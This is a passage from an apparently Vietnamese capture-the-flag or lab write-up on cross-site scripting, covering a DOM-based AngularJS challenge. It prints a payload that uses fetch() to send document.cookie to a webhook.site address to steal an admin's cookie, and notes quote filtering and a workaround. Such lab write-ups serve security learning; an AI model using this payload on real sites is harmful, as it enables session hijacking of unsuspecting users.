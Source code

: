 Payload lấy cookie admin:
`'; fetch("https://webhook.site/3bef0358-33db-4a90-951a-6d0bedb6944f?c="+document.cookie);'`

## XSS-07: **XSS DOM Based - AngularJS**

![image.png](Images/image%2021.png)

→ AngularJS

![image.png](Images/image%2022.png)

Thử payload nhưng không thành công

![image.png](Images/image%2023.png)

Kí tự `'` đã bị lọc bỏ, thử `"`

![image.png](Images/image%2024.png)

Cách lấy cookie admin như bài trước
